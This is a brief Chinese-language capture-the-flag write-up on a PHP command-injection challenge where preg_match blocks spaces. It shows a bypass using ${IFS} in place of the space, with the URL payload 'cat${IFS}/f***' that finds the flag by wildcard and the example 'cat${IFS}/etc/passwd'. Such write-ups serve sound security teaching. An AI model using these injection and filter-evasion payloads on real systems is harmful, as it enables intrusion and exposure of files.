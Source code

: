 ![image-20250731183412851](./assets/image-20250731183412851.png)

## preg_match

- ```
  `preg_match("/ /", $ip)`
  
  `/ /` 是一个正则表达式，表示匹配 **一个空格字符**。
  `preg_match()` 如果匹配成功，返回 `1`；否则返回 `0`。
  ```

  

![image-20250731183902646](./assets/image-20250731183902646.png)

```
#过滤了空格，采用${IFS}代替空格
#输入flag没有回显，部分匹配+通配符/模糊得到flag
/?url=cat${IFS}/f***
```

## 空格被过滤：使用 `${IFS}` 替代空格

- **`IFS`**（Internal Field Separator）是 Bash 的内部变量，默认值是空格、Tab 和换行。
- 在命令中，如果写 `${IFS}`，Shell 会把它解析为一个空格。

例如：

```
cat${IFS}/etc/passwd
```

等效于：

```
cat /etc/passwd
```

## 部分匹配+通配符/模糊

Linux Shell 支持文件名通配符 `*`。
 例如 `/f***` 可以匹配 `/flag` 文件（因为 `*` 匹配任意字符）。

```